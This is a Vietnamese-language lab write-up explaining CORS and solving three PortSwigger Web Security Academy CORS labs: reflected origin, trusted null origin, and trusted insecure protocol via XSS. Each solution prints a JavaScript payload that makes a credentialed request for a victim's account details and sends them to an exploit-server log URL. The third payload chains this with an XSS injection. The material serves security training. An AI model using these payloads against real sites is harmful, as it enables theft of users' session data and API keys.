# CORS là gì:

CORS là một cơ chế của trình duyệt cho phép truy cập có kiểm soát vào các tài nguyên nằm ngoài một miền nhất định. Nó mở rộng và tăng tính linh hoạt cho chính sách cùng nguồn gốc

# __Lab: CORS vulnerability with basic origin reflection__
Access Lab, đăng nhập bằng tài khoản wiener:peter được cung cấp và sử dụng burpsute để bắt được các reqquest gửi đi.



Nhận thấy rầng ứng dụng đang cho biết các yêu cầu xuyên nguồn gốc có thể bao gồm cookie ( Access-Control-Allow-Credentials: true) và do đó sẽ được xử lý trong phiên.



Send to repeater thử thêm Origin và send thì thấy được rằng ứng dụng cho biết quyền truy cập từ tên miền nào 



Quay trở lại bài lab sử dụng exploit server kèm với payload:
```java script
<scipt>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a0700b8044304fe80ec0394006e009a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
	    location='/log?key='+this.responseText;
    };
</script>
```

Lưu và gửi cho nạn nhân. Truy cập vào để kiểm tra log thì sẽ thấy được các thông tin mà payload đã lấy được



Decode và submit api để hoàn thành lab




# __Lab: CORS vulnerability with trusted null origin__

Access Lab, đăng nhập bằng tài khoản wiener:peter được cung cấp và sử dụng burpsute để bắt được các reqquest gửi đi.



Send to repeater thử thêm Origin và send thì thấy được rằng ứng dụng đang sử dụng whitelist và chỉ khi nguồn gốc đó xuất hiện trong danh sách trắng, điều này sẽ được phản ánh trong Access-Control-Allow-Origin



Tuy nhiên Một số ứng dụng có thể đưa nullnguồn gốc vào danh sách trắng để hỗ trợ phát triển ứng dụng cục bộ.



Trong trường hợp này, có thể sử dụng nhiều thủ đoạn khác nhau để tạo ra yêu cầu xuyên nguồn gốc chứa giá trị `null` trong tiêu đề Origin. Điều này sẽ đáp ứng danh sách trắng, dẫn đến truy cập xuyên miền. Ví dụ, điều này có thể được thực hiện bằng cách sử dụng `iframe` yêu cầu xuyên nguồn gốc

Quay trở lại bài lab sử dụng exploit server kèm với payload:
```java scipt
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a7f00300338b0df808b2b4b00f600d6.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0ae8005c03d7b061808a2a4d015b0055.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

Lưu và gửi cho nạn nhân. Truy cập vào để kiểm tra log thì sẽ thấy được các thông tin mà payload đã lấy được



Decode và submit api để hoàn thành lab




# __Lab: CORS vulnerability with trusted insecure protocols__

Access Lab, đăng nhập bằng tài khoản wiener:peter được cung cấp và sử dụng burpsute để bắt được các reqquest gửi đi.



Send to repeater thử thêm Origin và send thì thấy được rằng ứng dụng đang sử dụng whitelist và chỉ khi nguồn gốc đó xuất hiện trong danh sách trắng, điều này sẽ được phản ánh trong Access-Control-Allow-Origin



Một số ứng dụng tin tưởng 1 nguồn gốc dễ bị tấn công chéo trang(XSS) ở lab này thì lỗ hổng có thể xáy ra ở nguồn gốc của việc check stock của các sản phẩm mà trang đang đăng




Quay trở lại bài lab sử dụng exploit server kèm với payload:
```java script
<script>
    document.location="http://stock.0acf00000436e107809e35dd00ef0050.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0acf00000436e107809e35dd00ef0050.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a7800c3044be1fb80c13477016d0038.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
Lưu và gửi cho nạn nhân. Truy cập vào để kiểm tra log thì sẽ thấy được các thông tin mà payload đã lấy được



Decode và submit api để hoàn thành lab

